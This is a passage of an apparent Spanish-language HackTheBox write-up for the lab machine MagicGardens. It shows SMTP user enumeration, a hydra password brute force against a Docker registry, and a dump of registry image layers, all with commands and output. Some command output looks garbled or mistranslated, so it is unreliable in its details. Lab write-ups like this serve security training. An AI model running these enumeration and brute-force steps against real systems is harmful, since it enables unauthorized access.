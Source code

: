 
SMTP (Simple Mail Transfer Protocol) es un conjunto de directrices de comunicación que permiten a las aplicaciones web realizar tareas de comunicación a través de Internet, incluyendo correos electrónicos. Es parte del protocolo TCP/IP y trabaja en el traslado de correos electrónicos a través de la red. La enumeración SMTP nos permite identificar usuarios válidos en el servidor SMTP. Esto se hace con los comandos SMTP incorporados usando ellos. VRFY Este comando se utiliza para autenticar el usuario. EXPN Este comando muestra la dirección de correo real para alias y listas de correo. RCPT TO Identifica el destinatario del mensaje. La enumeración SMTP es una técnica utilizada para enumerar el servicio SMTP que se ejecuta en el servidor de destino.

```
./smtp-user-enum -U /usr/share/wordlists/SecLists/Usernames/Names/malenames-usa-top1000.txt magicgardens.htb 25
Connecting to magicgardens.htb 25 ...
220 magicgardens.magicgardens.htb ESMTP Postfix (Debian/GNU)
250 magicgardens.magicgardens.htb
Start enumerating users with VRFY mode ...
[----] ALEX        252 2.0.0 ALEX
```

encontramos al usuario `alex`


```
hydra -f -l alex -P /usr/share/wordlists/rockyou.txt 10.10.11.9 -s 5000 https-get /v2/
[DATA] atacándose a http-gets://10.10.11.9:500/v2/
[5000][http-get] host: 10.10.11.9 login: alex contraseña: diamantes
[STATUS] ataque terminado para 10.10.11.9 (pareja válida encontrada)
```
`https://github.com/Syzik/DockerRegistryGrabber`

```
❯ python3 drg.py https://10.10.11.9 -U alex -P diamantes --dump-all
Magicgardens.htb
BlobSum encontró 30
    Descargar : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8c2c2e23955b46d4
    Descargar : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8c2c2e23955b46d4
    Descargar : b0c11cc48cc482dbeea1133c92c9207a3feca9c837d75d769b1c6243938c
    Descargar : 748da8c1c1b87e6667b90ea305e2605e2671b22d046dcfeb189152bf590d594c3b3fc
    Descargas : 81771b31efb31f3fb18dae7d8ca3a93c8c4554aa09239e09d61bcc7ed58d4515
    Descargar : 35bb21a215463f8130302987a19a19d014946cdd82c86d57eebBcfb94d6511a8
    Descargas : 437853d7b910e50d0a0a43b0b77dadec00948a21289a32e6082d44593768eb1
    Descargar : f9afd820562f8d898d894dfed53f4dfed53f9065b928c552cf920e52e804177eff8b2c82
    Descargas : d66316738a2760996cb59c8eb2b28c8c8faa73ced1d98fb75fda661a1c659d6
    Descargar : fedbb0514db0150f23b0f778e5f304c3b333b5b5b53619a994c50da7e9e97ea
```
despues de buscar encontras este script en github con el que crea un montón de archivos zip por DockerRegirstryGrabber
despues de todo eso enumerar los archivos uno por uno, db.sqlite3 se puede encontrar 


![](/assets/images/htb-writeup-MagicGardens/recortar(1).png)

